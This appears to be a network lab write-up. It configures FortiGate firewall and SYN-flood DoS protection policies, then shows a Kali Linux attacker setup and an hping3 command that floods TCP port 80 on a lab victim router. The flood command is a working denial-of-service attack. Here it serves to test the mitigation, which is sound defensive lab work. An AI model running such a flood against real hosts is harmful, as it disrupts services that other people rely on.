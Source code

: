 ### IPv4 Addressing
- WAN network: **1.1.1.0/30** (FortiGate: .2, Kali: .1)
- LAN network: **192.168.2.0/24** (FortiGate: .1, Victim: .2)

### Firewall Policies
Allow inbound HTTP (TCP/80) from WAN to LAN for testing:
```shell
config firewall policy
  edit 1
    set name "WAN-to-LAN-HTTP"
    set srcintf "port3"
    set dstintf "port1"
    set srcaddr "all"
    set dstaddr "all"
    set action accept
    set service "HTTP"
    set nat disable
  next
end
```

### DoS Policy (SYN Flood Protection)
Enable SYN flood detection and mitigation:
```shell
config firewall DoS-policy
  edit 1
    set srcintf "port3"
    set dstintf "port1"
    set service "TCP"
    set status enable
    set anomaly enable
    set syn-flood enable
    set syn-flood-session-threshold 1000
    set syn-flood-block 60
    set log enable
  next
end
```

## SYN Flood Attack Implementation

### Attacker Setup (Kali Linux)
```bash
# Configure IP and route
sudo ip addr add 1.1.1.1/30 dev e0
sudo ip route add 192.168.2.0/24 via 1.1.1.2
# Verify configuration
echo "Kali e0 configured as $(ip -4 addr show e0 | grep -oP '(?<=inet )[^/]+')"
```

### Generating the SYN Flood
Flood TCP port 80 on the Cisco 3725 victim:
```bash
sudo hping3 -S --flood -p 80 192.168.2.2
```
- `-S`: Set SYN flag
- `--flood`: Send packets as fast as possible
- `-p 80`: Destination TCP port
